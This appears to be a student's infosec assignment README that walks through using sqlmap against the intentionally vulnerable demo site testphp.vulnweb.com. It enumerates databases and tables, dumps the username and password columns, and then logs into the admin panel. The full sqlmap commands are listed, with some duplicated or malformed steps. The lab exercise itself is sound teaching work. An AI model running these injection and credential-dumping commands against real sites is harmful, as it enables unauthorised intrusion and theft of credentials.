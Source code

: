 # COMP421-InfoSec Assignment 1
# Muhammad Sulaiman Sultan 231453415

## Pre-Requisites
- Install ```sqlmap``` using the command ```sudo apt-get install sqlmap```

## SQL Injection
1. Go to ```vulnweb.com``` and open any sub domain. I am using Acuart sub domain ```http://vulnweb.com```.
2. Find a link which makes a query request to the SQL database at the backend. We can browse to one of the tabs like ```artist``` tab and click on one of the links. This takes us to the page with the following link: ```http://testphp.vulnweb.com/artists.php?artist=1```.
3. We can now use the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --dbs``` to find the databases hosted in the backend.
4. We can now find the tables in the database using the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables```.
5. Out of all the tables we find, we will choose the ```users``` table and and then run the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users columns``` and see the columns within the ```user``` table.
6. Out of all the columns we are able to find, we will target the ```uname``` column and get its data by running the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump``` 
7. We will now target the ```uname``` column and get its data by running the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump```
8. We will also target the ```pass``` column and get its data by running the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass --dump```
8. Since both commands yield ```test``` this means that both the username and the password are 'test' for the admin panel on this website.

We can now log into the websites admin panel with the username and password we have yielded using this SQL Injection.

## Commands executed and their outputs recieved
1. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --dbs```
![image](https://user-images.githubusercontent.com/64100540/200076869-0e784ec5-33e2-4cdb-a67d-b7cac8bbf110.png)

2. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables```
![image](https://user-images.githubusercontent.com/64100540/200076900-191ea1dd-cd40-4ce7-a3f1-fecbe2fb0507.png)

3. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users --columns``` 
![image](https://user-images.githubusercontent.com/64100540/200077042-25387967-c01c-489c-b872-9f77a8230431.png)

4. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump```
![image](https://user-images.githubusercontent.com/64100540/200077088-cc369444-9eda-48ee-b3f9-ebf6b86b709f.png)

5.  ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass --dump```
![image](https://user-images.githubusercontent.com/64100540/200077127-3d39edad-a0b6-4388-b474-49177bb2a692.png)

## Logging into the admin panel
![image](https://user-images.githubusercontent.com/64100540/200077622-6855b777-2db7-40d2-8c80-51a323dd8e67.png)
